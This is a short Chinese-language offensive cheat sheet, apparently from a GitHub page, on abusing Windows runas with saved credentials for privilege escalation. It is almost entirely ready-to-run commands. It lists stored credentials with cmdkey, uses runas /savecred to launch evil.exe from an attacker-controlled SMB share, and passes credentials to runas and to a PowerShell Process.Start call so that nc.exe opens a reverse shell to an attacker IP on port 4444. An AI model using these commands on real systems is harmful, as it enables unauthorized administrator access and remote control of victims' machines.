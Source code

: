 # 利用Runas 程序

## 1. 枚举

```bash
cmdkey /list     #列出保存的凭据
```

## 2. 利用-通过使用`runas/savecred`

```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

## 2.1 通过利用runas来进行传递凭据 （最好直接用2的方式）

```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe
```

```bash
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```
